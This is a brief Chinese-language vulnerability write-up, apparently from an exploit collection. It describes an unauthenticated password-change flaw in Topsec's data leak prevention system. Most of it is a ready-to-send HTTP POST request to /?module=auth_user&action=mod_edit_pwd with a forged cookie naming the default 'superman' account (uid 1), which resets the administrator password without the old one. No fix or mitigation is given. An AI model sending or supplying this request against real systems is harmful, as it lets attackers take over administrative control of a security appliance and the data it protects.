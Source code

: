 # 天融信数据防泄漏系统越权修改管理员密码

无需登录权限,由于修改密码处未校验原密码,且/?module=auth_user&action=mod_edit_pwd，接口未授权访问,造成直接修改任意用户密 码，默认superman账户uid为1

```
POST /?module=auth_user&action=mod_edit_pwd 
Cookie: username=superman;

uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

